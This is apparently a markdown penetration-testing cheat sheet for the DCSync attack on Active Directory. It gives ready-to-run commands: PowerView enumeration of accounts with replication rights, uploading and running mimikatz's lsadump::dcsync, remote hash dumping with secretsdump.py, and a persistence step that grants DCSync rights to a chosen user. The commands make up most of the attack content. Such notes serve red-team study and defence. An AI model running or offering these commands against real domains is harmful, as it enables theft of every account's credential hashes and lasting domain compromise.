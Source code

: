 # DCSync

# Overview
## Local Exploitation
- The initial foothold must be against a domain account with **domain replication privileges (MS-DRSR)**. 
- The attacker would upload `mimikatz` and run the DCSync command from the `lsadump` module, specifying the targeted domain and user account.

## Remote Exploitation
- The attacker would use `secretsdump.py` to query the  DCSync hashes.

# Tools Needed
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

# Exploitation
*Assumption is that the attacker has access to the system through winrm*

## Local
```powershell
# OPTIONAL ENUMERATION
## Check who has permission (PowerView)
Get-ObjectAcl -DistinguishedName "dc=domain,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}

# Upload mimikatz
upload mimikatz.exe mimikatz.exe

# Run mimikatz
.\mimikatz.exe

## Inside mimikatz
lsadump::dcsync /domain:domain.local /user:user
```

## Remote
```bash
secretsdump.py -just-dc <user>:<password>@<ip> -outputfile dcsync_hashes
```

# Persistence
If you're a domain admin, you can give DCSync rights to any user with `PowerView`
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=domain,dc=local" -PrincipalSamAccountName <username> -Rights DCSync -Verbose
```

# References
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
